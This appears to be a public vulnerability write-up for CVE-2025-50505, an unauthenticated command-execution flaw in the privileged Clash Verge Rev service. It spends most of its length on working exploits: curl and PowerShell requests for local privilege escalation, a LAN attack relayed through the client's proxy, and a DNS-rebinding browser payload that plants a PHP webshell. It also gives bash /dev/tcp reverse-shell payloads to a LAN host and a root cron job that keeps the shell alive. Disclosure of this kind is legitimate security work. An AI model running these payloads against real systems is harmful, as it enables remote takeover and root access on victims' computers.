



# CVE-2025-50505

Unauthorized API Leads to Arbitrary Command Execution and Privilege Escalation in Clash Verge Rev

## Description

The vulnerability stems from an unauthenticated API endpoint exposed by the [clash-verge-service](https://github.com/clash-verge-rev/clash-verge-service) component, which is installed with elevated privileges by default. This flaw allows attackers to execute arbitrary commands, leading to two primary attack scenarios: Local Privilege Escalation (LPE) on the host machine and Remote Code Execution (RCE) under specific conditions.

The RCE vector can be exploited by attackers on the same Local Area Network (LAN) if the user has enabled LAN connections. More critically, it can be exploited from the public internet by chaining the vulnerability with a DNS Rebinding attack, enabling attackers to bypass browser security policies and execute commands on a victim's machine simply by having them visit a malicious website.

Initial public warning of this vulnerability was provided by [@KawaiiZapic](https://x.com/KawaiiZapic) on X.

* Affected Software: Clash Verge Rev <= v2.2.3
* Affected Platforms: Windows, macOS, Linux
* Impact: Local Privilege Escalation, Remote Code Execution

## Technical Details

The `clash-verge-service` component runs with high privileges (root or SYSTEM) and exposes an unauthenticated HTTP API on `127.0.0.1:33211`. The vulnerability lies within the `/start_clash` endpoint, which accepts a JSON payload to control the startup of the Mihomo core process.

The service constructs and executes a command based on several parameters from this payload, following a structure similar to:

```bash
<bin_path> -d <config_dir> -f <config_file> >> <log_file>
```

Crucially, all four parameters—`bin_path`, `config_dir`, `config_file`, and `log_file`—are fully controllable by the attacker. Although Rust provides inherent protection against classic command injection (e.g., using ; or | to chain commands), the attacker's control over the entire command structure enables a two-stage attack to achieve arbitrary code execution.

### Vulnerable Code Locations

1. The service process listens on 127.0.0.1:33211 via the Warp framework, and no authentication is implemented for the `/start_clash` interface

[clash-verge-service/src/service/mod.rs](https://github.com/clash-verge-rev/clash-verge-service/blob/ffcccc6095e052534980230f9e0ca97db2675062/src/service/mod.rs#L100)

```rust
// Line 29
const LISTEN_PORT: u16 = 33211;
// Line 77~80
let api_start_clash = warp::post()
    .and(warp::path("start_clash"))
    .and(warp::body::json())
    .map(move |body: StartBody| wrap_response!(COREMANAGER.lock().unwrap().start_clash(body)));
// Line 98~107
warp::serve(
    api_get_version
        .or(api_start_clash)
        .or(api_stop_clash)
        .or(api_stop_service)
        .or(api_get_clash)
        .or(api_exit_sys),
)
.run(([127, 0, 0, 1], LISTEN_PORT))
.await;
```

2. `start_clash()` calls `start_mihomo()` and `start_mihomo()` calls the function `process::spawn_process(bin_path, &args, log) `passing in bin_path. `spawn_process()` calls `std::Command::new(command)` to execute the command

[clash-verge-service/src/service/core.rs](https://github.com/clash-verge-rev/clash-verge-service/blob/ffcccc6095e052534980230f9e0ca97db2675062/src/service/core.rs#L156)

```rust
let pid = process::spawn_process(bin_path, &args, log)?;
```

[clash-verge-service/src/service/process.rs](https://github.com/clash-verge-rev/clash-verge-service/blob/ffcccc6095e052534980230f9e0ca97db2675062/src/service/process.rs#L8)

```rust
let child = Command::new(command)
    .args(args)
    .stdout(log)
    .stderr(Stdio::null())
    .spawn()?;
```

## Exploitation Vector 1: Local Privilege Escalation (LPE)

### Linux

1. Create a malicious script: (normal user)

```bash
echo -e '#!/bin/bash\nid > /root/pwned' > /home/user/pwn  
chmod +x /home/user/pwn 
```

2. Send an unauthenticated request:

```bash
curl -XPOST http://127.0.0.1:33211/start_clash \
     -H 'Content-Type: application/json' \
     -d '{
       "bin_path":"/home/user/pwn",
       "config_dir":"/tmp",
       "config_file":"/dev/null",
       "log_file":"/tmp/x"
     }'
```


3. Verify privilege escalation:

```bash
sudo cat /root/pwned
```





### Windows

pwn.bat:

```bat
@echo off
whoami > C:\Users\xxx\Desktop\pwned.txt
```

test.ps1:

```powershell
$apiUrl = "http://127.0.0.1:33211/start_clash"
$headers = @{ "Content-Type" = "application/json" }
$body = @{
    bin_path    = "C:\Users\xxx\Desktop\pwn.bat"
    config_dir  = "C:\Windows\Temp"
    config_file = "NUL"
    log_file    = "C:\Windows\Temp\exploit.log"
} | ConvertTo-Json

Invoke-RestMethod -Uri $apiUrl -Method Post -Headers $headers -Body $body
```



## Exploitation Vector 2: Remote Code Execution (RCE)

The vulnerability can be escalated to RCE in two scenarios.

### Scenario A: RCE from LAN via Proxy Abuse

If a user enables the "Allow LAN"(局域网连接) option within the Clash Verge Rev client, the application's proxy server becomes accessible to all devices on the same local network. An attacker on the same LAN can exploit this by directing their malicious request through the victim's exposed proxy.

```bash
curl --proxy http://192.168.108.129:7897 \
     -XPOST http://127.0.0.1:33211/start_clash \
     -H 'Content-Type: application/json' \
     -d '{
         "bin_path":"/path/to/malicious/script",
         "config_dir":"/tmp",
         "config_file":"/dev/null",
         "log_file":"/tmp/x"
     }'
```

### Scenario B: RCE from Public Internet via DNS Rebinding

A more advanced attack can be performed from the internet without requiring LAN access. The attack chain leverages DNS Rebinding in combination with a specific browser behavior known as the "0.0.0.0-day" exploit.

The key to this attack is that Firefox and certain versions of Chromium treat the IP address `0.0.0.0` as an alias for `127.0.0.1`. This allows an attacker to bypass modern browser security features like the Same-Origin Policy (SOP) and Private Network Access (PNA).

The attack flow is as follows:

1. The victim visits a malicious website hosted on an attacker-controlled domain (e.g., `attacker.com`).
2. The attacker's DNS server first resolves `attacker.com` to its real public IP address. The malicious page loads in the victim's browser.
3. The JavaScript on the page makes further requests. In the background, the attacker's DNS server changes the IP for `attacker.com` to `0.0.0.0` with a very short TTL.
4. When the browser's DNS cache expires, it re-resolves `attacker.com` and now receives `0.0.0.0`.
5. Due to the browser-specific behavior, the request is not blocked but is instead sent directly to `127.0.0.1` on the victim's machine.

Since the request's origin is still `attacker.com`, the script successfully bypasses security restrictions and communicates directly with the vulnerable clash-verge-service API on `127.0.0.1:33211`, achieving remote code execution.

### Proof of Concept (DNS Rebinding with Singularity)

1. Install [singularity](https://github.com/nccgroup/singularity)
2. Use payload：

```javascript
/**
 * Clash-Verge-Rev payload
 */
const ClashVergeTrueLog = () => {

  const BODY = `{
    "bin_path": "/bin/true",
    "config_dir": "<?php phpinfo();?>",
    "config_file": "/dev/null",
    "log_file": "/var/www/html/exp.php"
  }`;

  function attack() {
    fetch("/start_clash", {
      method: "POST",
      headers: { 'Content-Type': 'application/json' },
      body:   BODY
    }).then(() => console.log("[Clash-True] sent"));
  }

  async function isService(headers,cookie,body){
    try {
      const r = await fetch("/version", {method:"GET"});
      const t = await r.text();
      return t.includes("Clash");
    } catch { return false; }
  }

  return {attack, isService};
};

Registry["Clash Verge Rev RCE"] = ClashVergeTrueLog();

```

Replace the PHP probe with any scripting language that supports boundary markers. If you want to get a **root shell**, refer to the next section and modify the payload.

3. Start singularity-server and configuring the Attack Panel

- `./singularity-server --HTTPServerPort 33211`
- Target Host: 0.0.0.0
- Rebinding Strategy: First then second
- Attack Method: Inline Frame

https://github.com/user-attachments/assets/72585d69-f48b-4e77-babf-be7690e7edb5


#### Note

Note: When customize `Content-Type` to `application/json`, do not set `no-cors`. `First then second` is a slower but more stable DNS rebinding mode. You can also choose `multiple answers`, but this may be mitigated by some public DNS servers, causing the attack to fail.

## Reverse Shell(LAN)

MacOS and some Linux systems (e.g. Kali) have `zsh` installed, which allows scripts to be executed with `-d` and `-f`. 

```bash
curl --proxy http://192.168.108.129:7897 -XPOST http://127.0.0.1:33211/start_clash \
  -H "Content-Type: application/json" \
  -d @- << 'EOF'
{
  "bin_path":   "/bin/echo",
  "config_dir": ";bash -c 'bash -i >& /dev/tcp/192.168.108.129/4444 0>&1';",
  "config_file":"/dev/null",
  "log_file":   "/tmp/rce_file"
}
EOF

# OR SET UP A CRON JOB
curl --proxy http://192.168.108.129:7897 -XPOST http://127.0.0.1:33211/start_clash \
  -H "Content-Type: application/json" \
  -d @- << 'EOF'
{
  "bin_path":   "/bin/echo",
  "config_dir": ";python3 -c \"open('/etc/cron.d/rev_shell','w').write(\\\"* * * * * root bash -c 'bash -i >& /dev/tcp/192.168.108.129/4444 0>&1'\\n\\\");\"; rm /tmp/rce_file;",
  "config_file":"/dev/null",
  "log_file":   "/tmp/rce_file"
}
EOF

curl --proxy http://192.168.108.129:7897 -XPOST http://127.0.0.1:33211/start_clash \
  -H 'Content-Type: application/json' \
  -d '{"bin_path": "/bin/zsh","config_dir": "/tmp/rce_file","config_file": "/dev/null","log_file": ""}'
```

### Discussion

1. A command injection vulnerability, CVE-2024-24576, exists in older versions of Rust on Windows. Consequently, older builds of Clash Verge Rev compiled with a vulnerable Rust toolchain may be susceptible to a more direct and straightforward reverse shell exploit. Beyond this specific Rust vulnerability, the core issue of arbitrary process execution could also be chained with various LOLBAS as an alternative vector for achieving reverse shell.
2. After the log is flushed, the output of the Command is appended after the "Spawning process..." line. Setting bin_path directly to a script (e.g., evil.sh) will fail. This is because, without a shebang (#!/bin/bash), the underlying OS cannot determine which interpreter to use. Attempting to explicitly call it via bash evil.sh would also fail, as the -d argument passed by the service would be misinterpreted as an invalid option by bash itself.

```Rust
let _ = writeln!(log, "Spawning process: {} {}", command, args.join(" "));
    log.flush()?;

let child = Command::new(command)
    .args(args)
    .stdout(Stdio::from(log))
    .stderr(Stdio::null())
    .spawn()?;
```
Thanks to [@Esonhugh](https://github.com/Esonhugh) for suggesting that `zsh` can be used to execute commands successfully under these conditions.

## Reference

* [DNS Rebinding in Browser](https://mp.weixin.qq.com/s/jiX1zC5_1y9tipYzM8Oxdg)
* https://www.oligo.security/blog/0-0-0-0-day-exploiting-localhost-apis-from-the-browser
* https://www.wiz.io/blog/seleniumgreed-cryptomining-exploit-attack-flow-remediation-steps

## Solution

Update to the Latest Version.
